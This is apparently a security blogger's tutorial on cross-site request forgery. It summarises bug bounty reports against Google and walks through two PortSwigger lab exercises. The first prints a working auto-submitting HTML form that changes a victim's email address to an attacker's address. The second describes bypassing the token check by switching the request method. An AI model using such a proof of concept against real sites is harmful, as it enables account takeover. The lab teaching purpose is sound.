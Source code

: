 ```yaml
---
title: CSRF
date: 2022-03-30 15:29:00 +/-TTTT
categories: [VAPT, CSRF]
tags: [vapt]     # TAG names should always be lowercase
---
```


![CSRF](https://drive.google.com/uc?export=view&id=1km7jI5ygm9O0cDe6grPd5O0VY18wAb6n)  

 
Cross Site Request Forgery is an vulnerability which can be easily understood and exploited in the web application.   
And it can be found on most of the sites due to the misconfiguration.  
So most of the peoples in infosec start their learning from this vulnerbility.(which require minimal coding knowledge to exploit it.  

I thought to write a blog aroung it in the perspective of attacker and developer.   
There are various labs available to get a handson exposure on CSRF. Few of them are  

1. https://portswigger.net/web-security/csrf (free)  
2. https://pentesterlab.com/exercises/csrf/course (Paid)  
3. bWAPP(free-offline installation)    


It is recommended to start with the free labs and depend on your interest it can be extended to paid labs or even you can try building a vulnerable web applicaiton on yourself.  

Using CSRF attacker can able to perform actions on behalf of user without their knowledge.    

Consider if you opened a facebook profile in one of the tab and you mistakely clicks or accepts the attacker link.  
Then it is possible for the attacker to change the email address or other sensitive information if the facebook wasnt protected against CSRF.    

Earlier CSRF was found in facebook,google and other big tech guys. Eventhough developers more aware of this exploit in recent days, still misocnfiguration is found by bug hunters.  

## Types    

1. URL based - Sensitive token on GET request    
2. Form based - POST based   

I will start with some of the reports which i found to be interesting related to the CSRF.    

## CSRF in google  
Yeah you heared it right. Even i got wondered how this kind of known bugs is possible in a google platform.  
Like all beginners i had a myth that it will be never possible to exploit Google. Its true their product has unique security team and the developers itself more equipped to build a secure code. But they are still devs right.  


It was report publised by [**Oday Alhalabi**](https://bughunters.google.com/profile/91a2e03b-0b0d-422c-9cd6-aa2a2ae24b57) who is is the top rank in the HOF on google.  
This is the [blog link](https://medium.com/@odayalhalbe1/my-first-bug-in-google-and-how-i-got-csrf-token-for-victim-account-rather-than-bypass-it-1337-bf01261feb47) where he published his report  
He started to bypass the CSRF token in a novel ways but it didnt work out.  
But he found that CSRF token can be viewed by public and that can be sent to victim to exploit it.    

Its a another report by alhalabi itself, where he tried to replace a same length CSRF token in the request and it was accepted due to misconfiguration  
For full [report](https://medium.com/@odayalhalbe1/how-i-earned-500-from-google-by-change-one-character-8350d2b618e50)   

Another one is by [**Jasinder**](https://bughunters.google.com/profile/e20a2905-0b14-4a5b-8a65-b7be9a245807) where he found that bughunters portal having a CSRF token but its not validated against the server.  
Hence it is possible for attacker to read all the reports of the users.   
You can find the more detailed report and video [here](https://jasminderpalsingh.info/csrf-bug-to-access-private-reports-to-google-vrp/)  

Then a clever identification by [**Hassan Khan Yusufzai**](https://bughunters.google.com/profile/9d8d26e4-5295-45b4-85f1-199c6488ca96) on the json data manipulation and results in the CSRF.  
He had a same feeling of mine that google products never be exploited.  

## Lab  

### Exercise 1
In the first exercise we will exploit the page which didnt have any protection against the CSRF attack.  

To complete the exercise, go the page which containing vulnerable parameter `https://ac021fcf1ec09914c0c6599500a5000e.web-security-academy.net/my-account/change-email` and provide any test email for update and capture the request in your favourite interceptor.  


![initial intercpet](https://drive.google.com/uc?export=view&id=1kXsX7va1MIE5lcV3X9_8mtCT23AvsoQH)


Then try to manipulate the emailid to attacker and generate a html page which has the following similar code.  

 

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://ac021fcf1ec09914c0c6599500a5000e.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="test&#64;hack&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>

```

To test the vulnerability you can use the exploit server on the same lab, to check the exploit on victim side.  

Paste the code on body and click store -> deliver to victim to complete the exercise.   

Since we have the `document.forms[0].submit();` code which will auto submit the request when viewed by victim.  


![store](https://drive.google.com/uc?export=view&id=1I4U-xFV_VnsYy-VAcH8NB0zR9aUw6w8I)   

![submit](https://drive.google.com/uc?export=view&id=1OVF-u_nzPz5zUaPDLUTqDNIN2RYSf9Oz)  


![success](https://drive.google.com/uc?export=view&id=13ZU4vP8jJdLONzBxpH1Ace1NxyUcdYrL)  


Finally the victim dashboard will be successfully updated with the attackers email id. Hence he can further reset the password of the account and perform the malicious actions  

![success update](https://drive.google.com/uc?export=view&id=1IxnnrZ3SgMSD07jOxpmlt-vv157vn-ep)

### Exercise 2  

As mentioned in the CSRF reports from google, still many websites vulnerable to handle the CSRF tokens. In this lab exercise we tried to switch the HTTP request and bypass the CSRF protection on the server.  

In a historical way we tried to tamper the CSRF token but the server validation captured it successfuly and throws a 400 Bad Request.  
Hence we tried to change the method and it was results in the successfull bypass on the server validation of the CSRF tokens.  


First we checked the request in the repeater without any tampering  

![without tamper](https://drive.google.com/uc?export=view&id=1D8s4HiUVWYEVKdlNNkpLjRoL8f0gLpOc)  


Then we tried to tamper the CSRF token which results in the 400 Bad Request  

![Bad Request ](https://drive.google.com/uc?export=view&id=1yhshDrbYrS9fUaYf6NjAezVuhKf7mOxC)  


So we tried with the method switch from POST to GET, which results in successfull bypass of the CSRF token validation on the server  

![method switch](https://drive.google.com/uc?export=view&id=1ufXiv84b9qWbsC2PUGlMe_zINbHyUorQ)  

So finally we delivered the exploit the payload to victim   

![success update](https://drive.google.com/uc?export=view&id=1T6zNgCU3B1jJ_w2qv0bHxlydamiSaDn0)  



